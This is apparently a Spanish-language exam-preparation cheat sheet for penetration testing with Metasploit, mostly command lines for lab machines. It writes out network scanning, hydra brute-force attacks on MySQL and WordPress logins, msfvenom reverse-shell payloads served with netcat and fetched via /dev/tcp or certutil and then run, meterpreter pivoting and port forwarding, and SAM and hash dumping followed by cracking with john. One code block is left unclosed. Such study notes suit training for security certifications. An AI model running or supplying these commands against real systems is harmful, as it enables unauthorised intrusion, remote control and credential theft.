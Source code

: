>Utilizar mucho Metasploit
-----

## Fase de Escaneo
- Utilizar arpscan, ping, netdiscover y nmap -sn
```bash
sudo nmap -sn 192.168.1.0/24 -oA netscan 
fping -a -g {Rango de IP} 2>/dev/null
sudo netdiscover -r red/24
sudo arp-scan --localnet --ignoredup -ITarjetaRed
```

- Target en questión
```bash
sudo nmap -sS -sU  -p- -Pn -v -n --min-rate=5000 -T5 192.168.1.203 -oA election
sudo nmap -sU -v  -p- -T3 --min-rate=4200 -oA udp-portss  192.168.1.203
```

## Fase de Enumeración
```bash
nikto -h http://domain.com
gobuster dir -u -w -b 404,403,301,400 -x php.php.bak,txt,txt.bak.html,htm,php
gobuster dir -u http://192.168.1.167 -w /usr/share/wordlists/dirb/common.txt  -k -x ~,swp,txt,txt.bak,php,php.bak,jpg,bak,js,png,auth.log,log,config,json,git,sh,kdbx,db,key -t 15
gobuster vhost -u http://pl0t.nyx/ -w /home/kuser/cosas/repositorios/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain | grep -v "400"
```

- Si hay un **smb**
```bash
enum4linux -a 10.10.212.81

smbclient //10.10.212.81/carpetaCompartida

smbclient //symfonos.local/helios -U helios
# No pedir passwd y mostrar recursos compartidos
smbclient -L //<IP> -N 
smbclient \\\\\\\\$ip\\\\recurso
```

## Explotación
```bash
hydra -l butthead -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.134 -I -F -t 20
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.182 http-post-form "/my_weblog/admin.php:username=admin&password=^PASS^:Incorrect username or password." -f -V
```
- Fuerza bruta a login de wordpress
```bash
hydra -l kwheel  -P /usr/share/wordlists/rockyou.txt 10.10.147.189  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2blog.thm%2Fwp-admin%2F&testcookie=1:F=The password" -t 30 -F -I
```
- Bruteforce con wordlist requeridas
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
- Túnel ssh si quiero ver alguna interfaz web
```bash
ssh -L 4545:127.0.0.1:8888 user@"ip_víctima"
```

- Si ganamos revshell y necesitamos una sesión de meterpreter
```bash
#Atacante 
msfvenom  -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf > payload.bin
nc -nvlp 80 < payload.bin
#Una vez pasado el archivo
meterpreter> use multihandler
set payload linux/x64/meterpreter/reverse_tcp


# Víctima
cat > payload.bin < /dev/tcp/IP/port
chmod +x  payload.bin
./payload.bin

```

## Pivotar y port forwarding

- si tengo problemillas [visito esto](https://www.youtube.com/watch?v=WeltU4DvoMs)
```bash
ip route add "IP descubierta" via "gateway"
```

```bash
meterpreter> run autoroute -s DirRed/Mascara
# O esto
meterpreter> route add DirRed/Mascara 1
# renombramos las sesiones para que nos queden claras las redes
sessions -n Red1-Victim1 -i 1
```
- Scanner **TCP**
```bash

use scanner/portscan/tcp
set rhosts IPVictim2
set PORTS 0-65535
exploit
```
- Para **forwarding** 
> **-l:** Especificamos el puerto de la máquina atacante
    **-p:** Especificamos el port de la vítcima
     **-r:** Especifico la máquina Víctima
 
```bash
meterpreter>portfwd add -l 1234 -p 80 -r IPVictim2
```

- Escaneamos por el puerto dónde reenviamos, a ver que info de cada port
```bash
db_nmap -sS -sV -p 1234 localhost
```

 - Explotación
 >Abremos bind_shell y la víctima abre el Peuerto esperando conexiones

```bash
use elexploit que sea en ese puerto 80
set payload /windows/meterpreter/bind_tcp
set rhosts IPVictim2
set lport otrodifeente al del priemr pivoting
#### Windows
- Si conseguimos archivo **sam** y **system**
```bash
samdump2 system.bak sam.bak
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

- Descargar desde la víctima (Windows)
```cmd
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > meterpreter.exe
certutil -urlcache -f http://192.168.1.135/meterpreter.exe meterpreter.exe
meterpreter.exe
```

## Comandos de Windows -  si gano acceso

- Saber el user
```power-shell
Get-LocalGroupMember -Group "Administrators"
```
- Por si nos preguntan los **Hotfix**
```Power-shell
(Get-Hotfix).Count
```
- Una vez ganado acceso Ver **Hotfixes**
```
enum_computers
enum_patches
# O en la shell, te da todos los parches
systeminfo
```

 - Elevar privilegios y dump hashes
``` bash
meterpreter> getprivs 
meterpreter> getsystem
meterpreter> getuid
meterpreter> getenv PATH
meterpreter> getenv ENV
meterpreter> hashdump
# Una vez dumpeado metemos sólo el user y NT a no ser qu ejohn no los pete
echo "user:HASH-NT" > hash.txt
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```


## Tips Exam

- Mejor no resetear el lab o la machine
- SI alguna tecla  falla, utilizar el **screen keyboard**
- Todas las redes serán **/24**
- Coger apuntes fuera de la MV


>Herramientas Recomendadas

● Nmap
● Dirb
● Nikto
● WPScan
● CrackMapExec
● The Metasploit Framework
● Searchsploit
● Hydra